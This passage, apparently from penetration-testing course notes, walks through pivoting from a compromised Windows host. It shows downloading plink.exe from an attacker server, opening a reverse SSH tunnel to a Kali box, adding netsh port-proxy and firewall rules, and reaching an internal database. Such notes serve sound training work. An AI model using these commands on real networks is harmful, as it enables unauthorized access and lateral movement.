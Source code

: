 ```Shell
cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
```
#### Plink downloaded to the `C:\Windows\Temp` folder
```cmd.exe
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
```
#### Making an SSH connection to the Kali machine
```cmd.exe
C:\Windows\Temp\plink.exe -ssh -l root -pw C@nn0tw84-RTS1! -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.155
```
#### Connecting to the RDP server with xfreerdp, through the Plink port forward
```Shell
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```
### 18.4.3. Netsh

**Requires admin privs**
#### RDP onto target you have access to
```Shell
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64
```
#### The portproxy command being run
```cmd.exe
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.209.64 connectport=22 connectaddress=10.4.209.215
```
#### netstat showing that TCP/2222 is listening on the external interface
```cmd.exe
netstat -anp TCP | find "2222"
```
#### Listing all the portproxy port forwarders set up with Netsh
```cmd.exe
netsh interface portproxy show all
```
#### Poking a hole in the Windows Firewall with Netsh
```cmd.exe
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.209.64 localport=2222 action=allow
```
#### Run nmap from Kali to ensure the firewall is allowing connections to port 2222
```Shell
nmap -sS 192.168.209.64 -Pn -n -p2222
```
#### SSHing into PGDATABASE01 through the Netsh port forward
```Shell
ssh database_admin@192.168.209.64 -p2222
```
#### Deleting the firewall rule with Netsh
```cmd.exe
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
```
